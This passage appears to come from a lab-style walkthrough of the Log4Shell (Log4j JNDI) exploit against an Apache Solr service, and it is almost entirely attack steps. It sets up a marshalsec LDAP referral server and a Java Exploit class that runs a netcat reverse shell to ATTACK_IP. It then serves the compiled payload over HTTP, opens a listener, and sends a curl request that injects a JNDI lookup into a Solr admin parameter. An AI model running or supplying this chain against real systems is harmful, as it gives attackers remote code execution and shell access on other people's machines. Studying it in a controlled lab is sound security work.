 {% code overflow="wrap" %}
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACK_IP:8000/#Exploit"
```
{% endcode %}

Terminal window now actively awaiting connections:

```
Listening on 0.0.0.0:1389
```

Open second terminal window to prepare final payload and secondary HTTP server.

Log4j vulnerability will execute arbitrary code crafted within Java programming language to "shell out" to run system command.&#x20;

Create or move to directory to host payload.&#x20;

Create **Exploit.java** payload:

<pre class="language-java" data-overflow="wrap"><code class="lang-java"><strong>public class Exploit {
</strong>    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACK_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
</code></pre>

Payload will execute command on target to call back to attack system. Example target configured with ncat for ease of exploitation.&#x20;

Compile payload:

```
javac Exploit.java
```

Host payload by spinning up temporary HTTP server:

```
python3 -m http.server
```

Prepare netcat listener to catch reverse shell in another terminal window:

```
nc -lvnp 9999
```

Trigger exploit and fire off JNDI syntax:

{% code overflow="wrap" %}
```
curl 'http://TARGET_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACK_IP:1389/Exploit\}'
```
{% endcode %}
